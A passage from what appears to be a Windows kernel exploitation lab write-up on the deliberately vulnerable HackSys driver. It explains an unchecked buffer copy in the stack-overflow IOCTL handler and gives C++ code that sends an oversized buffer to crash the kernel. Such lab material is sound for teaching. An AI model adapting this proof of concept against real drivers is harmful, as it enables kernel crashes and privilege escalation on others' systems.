 
`TriggerStackOverflow` is called via [`StackOverflowIoctlHandler`](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/106e3dd5d9c49326d55ce17c919bffa68ead1467/Driver/StackOverflow.c#L109), which is the IOCTL handler for `HACKSYS_EVD_IOCTL_STACK_OVERFLOW`.

Vulnerability is fairly obvious, a user supplied buffer is copied into a kernel buffer of size 2048 bytes (`512 * sizeof(ULONG)`). No boundary check is being made, so this is a classic stack smashing vulnerability.

### 2. Triggering the crash

```cpp
#include <Windows.h>
#include <stdio.h>

// IOCTL to trigger the stack overflow vuln, copied from HackSysExtremeVulnerableDriver/Driver/HackSysExtremeVulnerableDriver.h
#define HACKSYS_EVD_IOCTL_STACK_OVERFLOW	CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS)

int main()
{
	// 1. Create handle to driver
	HANDLE device = CreateFileA(
		"\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
		NULL);

	printf("[+] Opened handle to device: 0x%x\n", device);

	// 2. Allocate memory to construct buffer for device
	char* uBuffer = (char*)VirtualAlloc(
		NULL,
		2200,
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE);

	printf("[+] User buffer allocated: 0x%x\n", uBuffer);

	RtlFillMemory(uBuffer, 2200 , 'A');
	
	DWORD bytesRet;
	// 3. Send IOCTL
	DeviceIoControl(
		device,
		HACKSYS_EVD_IOCTL_STACK_OVERFLOW,
		uBuffer,
		2200,
		NULL,
		0,
		&bytesRet,
		NULL
	);
}
```
